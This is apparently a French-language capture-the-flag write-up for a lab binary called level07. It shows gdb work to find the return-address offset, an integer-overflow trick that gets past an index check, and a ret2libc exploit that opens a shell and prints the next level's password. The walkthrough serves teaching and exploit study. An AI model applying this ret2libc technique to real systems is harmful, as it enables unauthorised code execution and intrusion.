 # Level07

```shell
$ ./level07
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 1
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 1
 Completed read command successfully
Input command: quit
```

On cherche a faire ecrire par decu l'eip du main car la commande `store` est tres peu proteger dans l'executable `level07`

On va donc chercher la distance entre le debut du tableau et l'eip

```shell
$ gdb level07 -q
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.

(gdb) b *main+15
Breakpoint 1 at 0x8048732

(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048732 in main ()

(gdb) print ($ebp + 0x4) - ($esp + 0x24)
$4 = 456

(gdb) print 456 / 4
$5 = 114
```

456 octets les separes, soit `index = 114` vu que c'est un tableau d'`int`. Or `114 % 3 = 0` donc nous devons contourner cette protection dans la fonction `store`.

```python
dist_octet = 456
loop_it = 0xffff_ffff + 1

dist_octet + loop_it = 4_294_967_752
4_294_967_752 >> 2 = 1_073_741_938

# index: 114 <=> 1073741938
```

Nous allons faire un ret2libc. On va aller cherche l'adresse de `system` et de `bin/sh`

```shell
$ gdb level07 -q
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x8048723

(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048723 in main ()

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

- <code>AdresseSystem: 0xf7e6aed0 <=> 4159090384</code>
- <code>AdresseBinSH: 0xf7f897ec <=> 4160264172</code>

On a plus qu'a essayer

```shell
level07:$ ./level07
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
